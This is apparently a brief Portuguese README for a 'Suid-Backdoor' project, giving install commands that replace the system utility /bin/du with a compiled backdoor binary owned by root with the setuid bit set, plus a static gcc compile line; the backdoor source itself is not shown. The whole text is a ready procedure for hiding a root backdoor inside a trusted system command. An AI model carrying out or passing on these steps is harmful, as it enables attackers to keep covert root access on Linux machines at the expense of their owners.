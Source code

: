 # Suid-Backdoor
# Instale utilizando:
mv du_original /bin/bin/duis<br>
mv backdoor /bin/du<br>
chown root:root /bin/du<br>
chmod +s /bin/du<br>

# Para remover:
Apenas faça o processo inverso ;-;
# ----------------------------------------
Compile com: gcc backdoor.c -o backdoor -static

